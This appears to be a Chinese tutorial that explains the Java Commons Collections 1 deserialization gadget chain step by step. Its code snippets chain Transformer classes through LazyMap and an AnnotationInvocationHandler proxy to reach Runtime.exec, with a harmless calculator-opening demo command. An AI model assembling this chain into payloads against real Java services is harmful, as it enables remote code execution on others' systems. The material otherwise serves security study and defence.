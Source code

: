 ConstantTransformer实现了Transformer接口，作用是返回一个对象：
```java
public ConstantTransformer(Object constantToReturn) {
    this.iConstant = constantToReturn;
}

public Object transform(Object input) {
    return this.iConstant;
}
```
使用方法：
```java
ConstantTransformer constantTransformer = new ConstantTransformer(Runtime.getRuntime());
Object transform = constantTransformer.transform(Object.class);
Class<?> aClass = transform.getClass();
Method exec = aClass.getMethod("exec", String.class);
exec.invoke(transform, "open /Applications/Calculator.app");
```

InvokerTransformer也实现了Transformer接口，作用是通过反射执行任意方法：
```java
public InvokerTransformer(String methodName, Class[] paramTypes, Object[] args) {
    this.iMethodName = methodName;
    this.iParamTypes = paramTypes;
    this.iArgs = args;
}

public Object transform(Object input) {
    if (input == null) {
        return null;
    } else {
        try {
            Class cls = input.getClass();
            Method method = cls.getMethod(this.iMethodName, this.iParamTypes);
            return method.invoke(input, this.iArgs);
        } catch (NoSuchMethodException var4) {
            throw new FunctorException("InvokerTransformer: The method '" + this.iMethodName + "' on '" + input.getClass() + "' does not exist");
        } catch (IllegalAccessException var5) {
            throw new FunctorException("InvokerTransformer: The method '" + this.iMethodName + "' on '" + input.getClass() + "' cannot be accessed");
        } catch (InvocationTargetException var6) {
            throw new FunctorException("InvokerTransformer: The method '" + this.iMethodName + "' on '" + input.getClass() + "' threw an exception", var6);
        }
    }
}
```
使用方法：
```java
InvokerTransformer ivtransformer = new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"open /Applications/Calculator.app"});
ivtransformer.transform(Runtime.getRuntime());
```

将二者结合：
```java
ConstantTransformer constantTransformer = new ConstantTransformer(Runtime.getRuntime());
InvokerTransformer ivtransformer = new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"open /Applications/Calculator.app"});
ivtransformer.transform(constantTransformer.transform(1));
```

ChainedTransformer实现了Transformer接口，用于链接多个Tranformer，并以链式调用：
```java
public ChainedTransformer(Transformer[] transformers) {
    this.iTransformers = transformers;
}
public Object transform(Object object) {
    for(int i = 0; i < this.iTransformers.length; ++i) {
        object = this.iTransformers[i].transform(object);
    }

    return object;
}
```

由于Runtime没有实现Serializable接口，所以需要用Runtime.class：
```java
Method getRuntime = Runtime.class.getMethod("getRuntime", null);
Object runtime = getRuntime.invoke(Runtime.class, null);
Method exec = runtime.getClass().getMethod("exec", String.class);
exec.invoke(runtime, "open /Applications/Calculator.app");
```

对应到ChainedTransformer，应该是：
```java
ConstantTransformer constantTransformer = new ConstantTransformer(Runtime.class);
InvokerTransformer getRuntime1 = new InvokerTransformer("getMethod", new Class[]{String.class,Class[].class}, new Object[]{"getRuntime",new Class[0]});
InvokerTransformer invoke = new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null,null});
InvokerTransformer exec2 = new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"open /Applications/Calculator.app"});

Object transform = constantTransformer.transform(1);
Object transform1 = getRuntime1.transform(transform);
Object transform2 = invoke.transform(transform1);
Object transform3 = exec2.transform(transform2);
```

现在我们已经有了任意代码执行的方法，如何在反序列化时调用ChainedTransformer呢？LazyMap的get方法调用了transformer：
```java
public class LazyMap extends AbstractMapDecorator implements Map, Serializable {
    private static final long serialVersionUID = 7990956402564206740L;
    protected final Transformer factory;

    public static Map decorate(Map map, Factory factory) {
        return new LazyMap(map, factory);
    }
    .....

    public Object get(Object key) {
        if (!this.map.containsKey(key)) {
            Object value = this.factory.transform(key);
            this.map.put(key, value);
            return value;
        } else {
            return this.map.get(key);
        }
    }
}
```
在decorate时就定义factory，类型是Transformer。  
因此构造起来很轻松。

那么谁调用了LazyMap.get呢？AnnotationInvocationHandler.invoke方法。

但是AnnotationInvocationHandler.readObject并没有调用invoke方法。不过，他调用了this.memberValues的entrySet方法：
```java
Iterator var4 = this.memberValues.entrySet().iterator();
```
如果this.memberValues是LazyMap呢？

但AnnotationInvocationHandler反序列化并不会直接调用invoke方法，这时，可以用动态代理来完成，通过劫持LazyMap，于是反序列化时，会调用this.memberValues.entrySet，this.memberValues就是LazyMap，由于他已经被AnnotationInvocationHandler劫持了，所以他的任何方法执行都会进入AnnotationInvocationHandler.invoke，攻击链也就形成了。

```java
AnnotationInvocationHandler.readObject() -> LazyMap.entrySet -> invoke()
    -> LazyMap.get()
        -> ChainedTransformer.transformer()
            -> ConstantTransformer.transformer()
            -> InvokerTransformer.transformer() -> Method.invoke()
                -> Class.getMethod()
                -> InvokerTransformer.transformer() -> Method.invoke()
                    -> Method.invoke()
                    -> InvokeTransformer.transformer() -> Method.invoke()
                        -> Runtime.exec()
```

完整代码见于GenCC1.java，实验时将序列化与反序列化两步分开。

需要注意的是，由于LazyMap已经被劫持了，因此后续的任何操作都会触发Gadget的执行，即使是在IDEA中调试，也会发现常常还没writeObject就已经弹计算器了。

